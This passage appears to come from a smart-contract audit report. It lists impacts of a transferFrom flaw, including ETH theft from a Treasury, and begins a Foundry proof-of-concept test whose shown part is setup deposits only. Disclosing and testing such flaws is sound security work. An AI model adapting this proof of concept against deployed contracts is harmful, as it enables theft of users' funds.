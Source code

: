 ### Impact

- Breaking of accounting in `ABONDToken` `userStates`.
- Non-compliance with EIP-20.
- Theft of ETH funds from `Treasury`

### PoC

Add the following PoC to `test/foundry/Borrowing.t.sol`:

```solidity
function test_PoC_TransferFromBroken() public {
        uint256 ETH = 1;
        uint24 ethPrice = 388345;
        uint8 strikePricePercent = uint8(IOptions.StrikePrice.FIVE);
        uint64 strikePrice = uint64(ethPrice + (ethPrice * ((strikePricePercent * 5) + 5)) / 100);
        uint256 amount = 10 ether;

        address USER_2 = makeAddr("USER_2");

        uint128 usdtToDeposit = uint128(contractsB.cds.usdtLimit());
        uint256 liquidationAmount = usdtToDeposit / 2;

        // deposit in CDS so there is back funds for the USDa
        address cdsDepositor = makeAddr("depositor");

        {
            vm.startPrank(cdsDepositor);

            contractsB.usdt.mint(cdsDepositor, usdtToDeposit);
            contractsB.usdt.approve(address(contractsB.cds), usdtToDeposit);
            vm.deal(cdsDepositor, globalFee.nativeFee);
            contractsB.cds.deposit{value: globalFee.nativeFee}(
                usdtToDeposit, 0, true, uint128(liquidationAmount), 150000
            );

            vm.stopPrank();
        }

        {
            vm.startPrank(USER_2);
            vm.deal(USER_2, globalFee.nativeFee + amount);
            contractsB.borrow.depositTokens{value: globalFee.nativeFee + amount}(
                ethPrice,
                uint64(block.timestamp),
                IBorrowing.BorrowDepositParams(
                    IOptions.StrikePrice.FIVE, strikePrice, ETH_VOLATILITY, IBorrowing.AssetName(ETH), amount
                )
            );

            vm.stopPrank();
        }

        {
            vm.startPrank(USER);

            vm.deal(USER, globalFee.nativeFee + (amount / 2));
            contractsB.borrow.depositTokens{value: globalFee.nativeFee + (amount / 2)}(
                ethPrice,
                uint64(block.timestamp),
                IBorrowing.BorrowDepositParams(
                    IOptions.StrikePrice.FIVE, strikePrice, ETH_VOLATILITY, IBorrowing.AssetName(ETH), amount / 2
```
